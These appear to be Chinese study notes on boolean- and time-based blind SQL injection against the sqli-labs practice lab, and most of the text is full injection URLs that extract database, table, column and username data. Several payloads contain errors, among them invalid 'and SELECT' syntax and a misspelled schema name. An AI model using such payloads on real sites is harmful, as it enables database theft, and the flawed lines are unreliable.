 ```
http://sqli-labs/Less-5/?id=1' and ASCII(substr((SELECT COLUMN_name FROM information_schema.COLUMNS WHERE TABLE_schema='SECURITY' AND TABLE_name ='emails' LIMIT 0,1),1,1)) =104 -- 
```

#查的是columns的这个表，column_name的这个列，指定security的这个库，email的这个表名

![image-20220429184653929](https://img2023.cnblogs.com/blog/2554043/202212/2554043-20221204182202475-1000006725.png)

#0,1),2,1))## 0是第一个列，2是第二个字母

```
http://sqli-labs/Less-5/?id=1' and ORD(mid((SELECT IFNULL(CAST(username AS char),0x20)FROM SECURITY.users ORDER BY id LIMIT 0,1),1,1))=68 -- 
```

#查users的这个表的username的这个字段的第一行数据 0,1的第一个值

,2,1)

### 基于时间的盲注

基于时间的盲注

![image-20220429190950789](https://img2023.cnblogs.com/blog/2554043/202212/2554043-20221204182203122-226524032.png)

适用场景：没有数据回显，条件正确与否结果一样 

利用方式：构造判断条件(and)，添加sleep，逐个猜测 （盲猜）

```mysql
SELECT LENGTH(DATABASE())=8;
SELECT IF(expression,value1,value2)
SELECT if((1=1),1,0);  #真为1假为0
SELECT SLEEP(1); #睡眠一秒
SELECT SLEEP(if((SELECT length (DATABASE())=8),1,0));
##或者
SELECT if(LENGTH(DATABASE())=8,SLEEP(1),0)
```



```
http://sqli-labs/Less-9/?id=1' and SELECT if(ascii(SUBSTR((SELECT DATABASE()),1,1))=115,sleep(5),0) -- 
```

浏览器会延迟响应5秒如果为真

#查表名

```
http://sqli-labs/Less-9/?id=1' and SELECT if(ascii(SUBSTR((SELECT table_name from information_schema.tables where table_schema=database()limit 0,1),1,1)=101,sleep(5),0) -- 
```

#查列名


```
http://sqli-labs/Less-9/?id=1' and SELECT if(ascii(SUBSTR((SELECT column_name from informtion_schema.columns where table_schema='security' and table_name='emails' limit 0,1),1,1))>104,sleep(1),(0) -- 
```

